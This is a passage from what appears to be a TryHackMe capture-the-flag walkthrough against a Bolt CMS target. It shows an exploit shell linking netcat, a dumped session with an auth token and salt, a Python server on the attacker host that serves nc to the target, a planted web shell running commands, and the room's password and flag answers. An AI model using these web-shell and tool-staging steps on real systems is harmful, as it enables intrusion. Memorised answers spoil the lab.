 ```bash
Enter OS command , for exit 'quit' : ln -s $(which nc) .
";s:8:"*stack";a:0:{}s:10:"*enabled";i:1;s:17:"*shadowpassword";N;s:14:"*shadowtoken";N;s:17:"*shadowvalidity";N;s:15:"*failedlogins";i:0;s:17:"*throttleduntil";N;s:8:"*roles";a:2:{i:0;s:4:"root";i:1;s:8:"everyone";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:8:"*token";O:29:"Bolt\Storage\Entity\Authtoken":12:{s:5:"*id";s:2:"10";s:10:"*user_id";i:1;s:8:"*token";s:64:"e24a8ffc4daebd4b1b586ae4cbadb4be735d14ab3de9d49282260f592bec0459";s:7:"*salt";s:32:"1e7ed5c76f11a3bdc2ee3623f4c9bdc2";s:11:"*lastseen";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-04-25 16:01:38.867697";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:5:"*ip";s:13:"192.168.100.1";s:12:"*useragent";s:22:"python-requests/2.23.0";s:11:"*validity";O:13:"Carbon\Carbon":3:{s:4:"date";s:26:"2020-05-09 16:01:38.000000";s:13:"timezone_type";i:3;s:8:"timezone";s:3:"UTC";}s:7:"_fields";a:0:{}s:42:"Bolt\Storage\Entity\Entity_specialFields";a:2:{i:0;s:3:"app";i:1;s:6:"values";}s:7:"*_app";N;s:12:"*_internal";a:1:{i:0;s:11:"contenttype";}}s:10:"*checked";i:1587830498;}s:10:"_csrf/bolt";s:43:"-kIwVPHftVt0SZ3XJ_uBEDpT2x-COHYjo4ZSN5H7NUE";s:5:"stack";a:0:{}s:18:"_csrf/user_profile";s:43:"Spoy_vDCzRmnuZPfXYVJNmphWLl7Dv4kuc89Yev_2ag";}s:12:"_sf2_flashes";a:0:{}s:9:"_sf2_meta";a:3:{s:1:"u";i:1587830500;s:1:"c";i:1587830498;s:1:"l";s:1:"0";}}
```

```bash
:~/EritSecurusI# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
:~/EritSecurusI# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.201.19.213 - - [09/Aug/2025 15:08:33] "GET /nc HTTP/1.1" 200 -
```

```bash
http://10.201.19.213/files/c.php?id
```

<img width="1127" height="72" alt="image" src="https://github.com/user-attachments/assets/b64cea7c-4f98-4024-8417-6291de5c8da6" />


<br>
<h2>Task 6 . Priv esc</h2>
<br>


<p><em>Answer the questions below</em></p>

<p>6.1. What is the users password?<br>
<code>snickers</code></p>

<br>

<p>6.2. Flag 1<br>
<code>THM{Hey!_Welcome_in}</code></p>


```bash
http://10.201.19.213/files/c.php?c=ls -lah /var/www/html/app/database
```

<img width="1132" height="72" alt="image" src="https://github.com/user-attachments/assets/c73e2663-c259-4d5f-9703-68ad6bec1c20" />
